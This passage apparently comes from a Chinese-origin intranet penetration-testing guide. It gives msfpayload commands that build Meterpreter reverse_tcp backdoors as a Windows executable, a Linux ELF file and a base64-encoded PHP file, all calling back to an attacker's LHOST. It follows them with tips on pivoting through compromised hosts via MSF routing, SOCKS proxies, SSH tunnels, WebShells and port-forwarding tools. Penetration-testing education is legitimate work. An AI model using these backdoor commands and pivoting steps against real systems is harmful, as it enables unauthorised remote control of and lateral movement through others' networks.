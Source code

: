 ## 3.1 Windows backdoor

```bash
msfpayload windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> X > shell.exe 
```

## 3.2 Linux backdoor


    msfpayload linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R | msfencode -t elf -o shell 


## 3.3 PHP backdoor


    msfpayload php/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R | msfencode -e php/base64(can be simple codes) -t raw -o base64php.php 


MSF can do whatever things after the meterpreter session is captured. One of the most popular ways is to scan the target by using the attack module provided in msf (note: it can be a cross-network scan) after the routing table is added.

If you just want to perform a simple proxy work, auxiliary/server/socks4a module is fine.


I'd like to add one thing about msf here. If you find it troublesome to memorize all that commands used in the SSH tunnel, you can also use msf to build the tunnel.

    
    Load meta_ssh use multi/SSH/login_password exploit to get a session for proxy operations after the parameter is set  


* Directly conduct reverse proxy through WebShell and nginx

http://zone.wooyun.org/content/11096

## 4. other tricks

Use Python,Ruby and Perl to directly set up SOCKS connections.

Leverage lcx，tunna and htran to forward the traffic of ports.

Shadowsocks,Tor,goagent and so on

Also:using [ssocks](http://sourceforge.net/projects/ssocks/?source=navbar)(My friend @Deadcat recommended this to me in a game) for forward proxy and socks5 rebound

# 02. intranet environment probe and information gathering

It is intensively difficult for a full penetration to cover every situations, so all I listed here are just  tricks and thoughts.


